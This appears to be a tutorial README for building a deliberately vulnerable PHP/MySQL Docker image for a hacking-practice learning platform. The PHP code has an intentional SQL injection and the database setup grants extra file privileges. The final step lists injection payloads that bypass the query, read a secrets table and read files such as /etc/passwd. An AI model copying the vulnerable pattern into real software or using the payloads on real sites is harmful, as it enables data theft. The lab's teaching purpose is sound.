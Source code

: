 # Example Tutorial - AWE Image

This example will show how you can create an AWE-Image, which can be used on the awe learning platform.
We are going to create a simple sql injection with php and mysql.

# Step 1 - Prepare all the needed files

We need two files for our image. The php files containing the sql injection and a init script for our database.
## PHP:
Our php file simple connects to a database and executes a sql query containing a string directly passed into the query (SQL injection!).
```php
<?php
$servername = "127.0.0.1";
$username = "example_user";
$password = "example_password";
$database = "example";

if(isset($_POST["id"])){
    $conn = mysqli_connect($servername, $username, $password,$database);
    
        if(! $conn ) {
            die('Could not connect: ' . mysqli_error());
        }

        $sql = 'SELECT name FROM user where id = '.$_POST["id"];
        $result = mysqli_query($conn, $sql);

        if (mysqli_num_rows($result) > 0) {
            while($row = mysqli_fetch_assoc($result)) {
                echo "Name: " . $row["name"]. "<br>";
            }
        } else {
            echo "0 results";
        }
        mysqli_close($conn);
    }
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Example</title>
</head>
<body>
    <h1>Search for User by ID:</h1>
    <form action="/" method="POST">
        <input type="text" id="name" name="id">
        <button type="submit">Search ...</button>
    </form>
</body>
</html>
```

## init.sql:
Our init.sql creates a new user and database. It sets the permissions for the user on the database and creates the needed tables.
It also inserts some example data into the tables.
(And gives the users the file privilege ... to make the sql injection a litte bit more interessting)
```sql
CREATE USER 'example_user'@'localhost' IDENTIFIED BY 'example_password';
CREATE DATABASE example;
GRANT ALL PRIVILEGES ON example.* TO 'example_user'@'localhost';
GRANT FILE ON *.* TO 'example_user'@'localhost';
USE example;

CREATE TABLE user (
    id int NOT NULL AUTO_INCREMENT PRIMARY KEY,
    name varchar(255)
);

INSERT INTO user(name) VALUES ('john'),('harry'),('rite'),('Sophie');

CREATE TABLE secret (
    secret varchar(255)
);

INSERT INTO secret(secret) VALUES ('th!5!sSup3rS3cr3T!');
```

# Step 2

We know that we are going to use php and mysql. We now have two options. We could create our image using a Linux distribution base image like Ubuntu, Alpine or Debian, but we can also use a image which contains a little more software.
In this example, we are using the PHP base image. It is based on Debian, but comes preinstalled and preconfigured with PHP. This makes our Dockerfile a little bit easier.

```Dockerfile
###########################
#                         #
#    AWE Example Image    #
#                         #
###########################

# This line is a comment. All comments can be removed without changing the function of the dockerfile.

# We are using the PHP Base Image
FROM php:8-apache
# Our Image will expose port 80, the port apache is running on. This is a necessary information for AWE!
EXPOSE 80
# Run commands are executed at build time. We are installing all the things we need.
# Update our apt repository
RUN apt update
# Install mysql. Dont forget to use the '-y' switch, to automatically accept the installation
RUN apt -y install default-mysql-server
# Install the mysqli extension. This allow us to connect to our mysql server from php
RUN docker-php-ext-install mysqli
# Copy our files into the image COPY <src> <dst>
COPY ./index.php /var/www/html
COPY ./init.sql /init.sql

# Those are AWE specific labels
# The awe=<name> label MUST be set
LABEL awe="Example"
# the other two are optional, but provide information to our users
LABEL difficulty="easy"
LABEL hint="SQL Injection"

# This gets run when we are starting a container. In this example, we are starting
# mysql and apache. Then we set the database using our init.sql script. After that we
# are running a command which does not end, so the container keeps running
CMD service mysql start && service apache2 start && mysql < /init.sql && tail -F /var/log/mysql/error.log
```

# Step 3 - Building the image
When we have everything prepared, we only need to build our image. We can archive this by running the following command.

```bash
docker build -t example01 .
```

The `-t example01` argument is necessary and gives the image a name/tag.
After some time the image is build. We can see it in our docker images with the following command.

```bash
$ docker image ls
REPOSITORY          TAG       IMAGE ID       CREATED        SIZE
example01           latest    7ff103d8f634   2 hours ago    846MB <--- HERE IT IS!
hackme02            latest    44a3264eaa8c   5 weeks ago    534MB
hackme01            latest    7dcb2b064742   5 weeks ago    942MB
docker101tutorial   latest    80b65cb2639a   8 weeks ago    27.7MB
alpine/git          latest    ed0ba0fc6585   2 months ago   28.4MB
alpine              latest    389fef711851   2 months ago   5.58MB
```

# Step 4 - Export the image

When we are building the image on the same machine where awe is running, the image will become available to the learing platform automatically.
If we are building the image on another machine, we need to export it, and import it into the awe platform.

To export the image we run the following command:
```bash
docker save example01 > image.tar
```
`example01` is the tag (or name) of our image.

# Step 5 - Import the image

To import the image into an awe instance, open the admin page and upload the created tar file from the previous step using the admin password. Done.

# Step 6 - Exploit 😈

When we start the image through our learning platform and enter the site we are greeted with a form. We know that this form contains a sql injection. Here are three examples how we can exploit this:

```sql
-- bypass the filter
1 or 1=1

-- reading from another table
1 union select secret from secret

-- reading a file .. also works with /etc/passwd
1 union all select load_file("/flag.txt")
```